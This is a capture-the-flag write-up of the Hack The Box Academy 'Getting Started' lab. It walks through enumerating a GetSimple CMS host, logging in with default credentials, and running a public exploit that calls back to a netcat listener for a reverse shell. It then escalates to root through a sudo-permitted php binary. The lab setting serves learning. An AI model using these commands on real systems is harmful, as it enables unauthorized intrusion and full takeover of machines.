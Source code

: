 ```yaml
---
slug: /write-up/htb-academy/getting-started
pagination_next: null
pagination_prev: null
---
```


This is the write-up for the assessment of HTB academy [Getting started](https://academy.hackthebox.com/module/details/77) module.

## Enumeration

The machine has open ports in 22 and 80

SSH banner: `OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0`

There's an apache webserver in 80:

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome to GetSimple! - gettingstarted
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/admin/
```

```bash
└──╼ $whatweb http://10.129.235.190/
http://10.129.235.190/ [200 OK] AddThis, Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.235.190], Script[text/javascript], Title[Welcome to GetSimple! - gettingstarted]
```

From the previous scans we can see it's using the `GetSimple` cms.

## Foothold

We search the default credentials and `admin:admin` worked.

Checking the vulnerabilities for the CMS, I found this one https://www.exploit-db.com/exploits/51475.

Then, it's a matter of download the exploit, run it and configure a remote shell using nc:

```bash
nc -lvnp 4444
```
and launch the exploit:
```bash
python3 51475.py 10.129.235.190 / 10.10.15.50:4444 admin
```

And we have foothold onto the machine with `www-data` user:
```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.15.50] from (UNKNOWN) [10.129.235.190] 52682
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Now, we just need to improve the shell and retrieve the user flag.

## Privilege escalation

Now, we can escalate privileges. First we check what root permissions have the user:

```bash
www-data@gettingstarted:/home/mrb3n$ sudo -l
sudo -l
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
```

The user `www-data` can execute the `php` binary as root without providing a password. This is a very bad idea. A quick search in GTFObins give a easy payload to get a root shell:

```bash
www-data@gettingstarted:/home/mrb3n$ sudo php -r 'system("/bin/sh");'
sudo php -r 'system("/bin/sh");'
id
id
uid=0(root) gid=0(root) groups=0(root)
```
Now we can retrieve the root flag.